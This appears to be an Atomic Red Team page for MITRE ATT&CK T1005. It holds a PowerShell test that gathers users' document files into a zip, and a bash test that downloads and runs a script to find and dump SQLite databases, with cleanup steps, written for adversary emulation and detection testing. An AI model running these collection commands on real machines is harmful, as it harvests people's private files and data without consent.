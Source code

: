 # T1005 - Data from Local System
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1005)
<blockquote>Adversaries may search local system sources, such as file systems and configuration files or local databases, to find files of interest and sensitive data prior to Exfiltration.

Adversaries may do this using a [Command and Scripting Interpreter](https://attack.mitre.org/techniques/T1059), such as [cmd](https://attack.mitre.org/software/S0106) as well as a [Network Device CLI](https://attack.mitre.org/techniques/T1059/008), which have functionality to interact with the file system to gather information.(Citation: show_run_config_cmd_cisco) Adversaries may also use [Automated Collection](https://attack.mitre.org/techniques/T1119) on the local system.
</blockquote>

## Atomic Tests

- [Atomic Test #1 - Search files of interest and save them to a single zip file (Windows)](#atomic-test-1---search-files-of-interest-and-save-them-to-a-single-zip-file-windows)

- [Atomic Test #2 - Find and dump sqlite databases (Linux)](#atomic-test-2---find-and-dump-sqlite-databases-linux)


<br/>

## Atomic Test #1 - Search files of interest and save them to a single zip file (Windows)
This test searches for files of certain extensions and saves them to a single zip file prior to extraction.

**Supported Platforms:** Windows


**auto_generated_guid:** d3d9af44-b8ad-4375-8b0a-4bff4b7e419c





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| starting_directory | Path to starting directory for the search | Path | C:&#92;Users|
| output_zip_folder_path | Path to directory for saving the generated zip file | Path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;T1005|
| file_extensions | List of file extensions to be searched and zipped, separated by comma and space | string | .doc, .docx, .txt|


#### Attack Commands: Run with `powershell`! 


```powershell
$startingDirectory = "#{starting_directory}"
$outputZip = "#{output_zip_folder_path}"
$fileExtensionsString = "#{file_extensions}" 
$fileExtensions = $fileExtensionsString -split ", "

New-Item -Type Directory $outputZip -ErrorAction Ignore -Force | Out-Null

Function Search-Files {
  param (
    [string]$directory
  )
  $files = Get-ChildItem -Path $directory -File -Recurse | Where-Object {
    $fileExtensions -contains $_.Extension.ToLower()
  }
  return $files
}

$foundFiles = Search-Files -directory $startingDirectory
if ($foundFiles.Count -gt 0) {
  $foundFilePaths = $foundFiles.FullName
  Compress-Archive -Path $foundFilePaths -DestinationPath "$outputZip\data.zip"

  Write-Host "Zip file created: $outputZip\data.zip"
  } else {
      Write-Host "No files found with the specified extensions."
  }
```

#### Cleanup Commands:
```powershell
Remove-Item -Path  $outputZip\data.zip -Force
```





<br/>
<br/>

## Atomic Test #2 - Find and dump sqlite databases (Linux)
An adversary may know/assume that the user of a system uses sqlite databases which contain interest and sensitive data. In this test we download two databases and a sqlite dump script, then run a find command to find & dump the database content.

**Supported Platforms:** Linux


**auto_generated_guid:** 00cbb875-7ae4-4cf1-b638-e543fd825300





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| remote_url | url of remote payload | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1005/src|


#### Attack Commands: Run with `bash`! 


```bash
cd $HOME
curl -O #{remote_url}/art
curl -O #{remote_url}/gta.db
curl -O #{remote_url}/sqlite_dump.sh
chmod +x sqlite_dump.sh
find . ! -executable -exec bash -c 'if [[ "$(head -c 15 {} | strings)" == "SQLite format 3" ]]; then echo "{}"; ./sqlite_dump.sh {}; fi' \;
```

#### Cleanup Commands:
```bash
rm -f $HOME/.art
rm -f $HOME/gta.db
rm -f $HOME/sqlite_dump.sh
```



#### Dependencies:  Run with `bash`!
##### Description: Check if running on a Debian based machine.
##### Check Prereq Commands:
```bash
if [ -x "$(command -v sqlite3)" ]; then echo "sqlite3 is installed"; else echo "sqlite3 is NOT installed"; exit 1; fi
if [ -x "$(command -v curl)" ]; then echo "curl is installed"; else echo "curl is NOT installed"; exit 1; fi
if [ -x "$(command -v strings)" ]; then echo "strings is installed"; else echo "strings is NOT installed"; exit 1; fi
```
##### Get Prereq Commands:
```bash
if grep -iq "debian\|ubuntu\|kali\|mint" /usr/lib/os-release; then apt update && apt install -y binutils curl sqlite3; fi
if grep -iq "rhel\|fedora\|centos" /usr/lib/os-release; then yum update -y && yum install -y binutils curl sqlite-devel; fi
```




<br/>
